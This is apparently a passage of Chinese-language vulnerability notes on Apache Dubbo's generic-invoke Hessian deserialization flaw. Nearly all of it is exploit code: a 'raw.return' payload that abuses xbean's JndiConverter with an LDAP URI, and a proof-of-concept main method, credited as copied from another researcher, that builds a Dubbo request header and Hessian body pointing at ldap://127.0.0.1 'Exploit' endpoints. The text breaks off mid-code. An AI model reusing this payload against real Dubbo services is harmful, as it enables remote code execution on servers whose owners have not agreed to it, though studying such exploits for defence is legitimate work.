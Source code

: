 ```java
		HashMap map = new HashMap();
        map.put("generic", "raw.return");
        out.writeObject(map);
```

payload如下

```java
    private static void getRawReturnPayload(Hessian2ObjectOutput out, String ldapUri) throws IOException {
        HashMap jndi = new HashMap();
        jndi.put("class", "org.apache.xbean.propertyeditor.JndiConverter");
        jndi.put("asText", ldapUri);
        out.writeObject(new Object[]{jndi});

        HashMap map = new HashMap();
        map.put("generic", "raw.return");
        out.writeObject(map);
    }
```

还要多加一个org.apache.xbean.propertyeditor.JndiConverter对应的依赖

剩下四个if点都能利用，都差不多。

直接抄RoboTerh poc：

```java
public static void main(String[] args) throws Exception {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();

        // header.
        byte[] header = new byte[16];
        // set magic number.
        Bytes.short2bytes((short) 0xdabb, header);
        // set request and serialization flag.
        header[2] = (byte) ((byte) 0x80 | 2);

        // set request id.
        Bytes.long2bytes(new Random().nextInt(100000000), header, 4);
        ByteArrayOutputStream hessian2ByteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2ObjectOutput out = new Hessian2ObjectOutput(hessian2ByteArrayOutputStream);

        // set body
        out.writeUTF("2.7.9");
        // todo 此处填写Dubbo提供的服务名
        out.writeUTF("org.apache.dubbo.spring.boot.demo.consumer.DemoService");
        out.writeUTF("");
        out.writeUTF("$invoke");
        out.writeUTF("Ljava/lang/String;[Ljava/lang/String;[Ljava/lang/Object;");
        // todo 此处填写Dubbo提供的服务的方法
        out.writeUTF("sayHello");
        out.writeObject(new String[] {"java.lang.String"});

        // POC 1: raw.return
//        getRawReturnPayload(out, "ldap://127.0.0.1:8087/Exploit");

        // POC 2: bean
        getBeanPayload(out, "ldap://127.0.0.1:1389/xitdbc");

        // POC 3: nativejava
//        getNativeJavaPayload(out, "src\\main\\java\\top\\lz2y\\1.ser");

        out.flushBuffer();

        Bytes.int2bytes(hessian2ByteArrayOutputStream.size(), header, 12);
```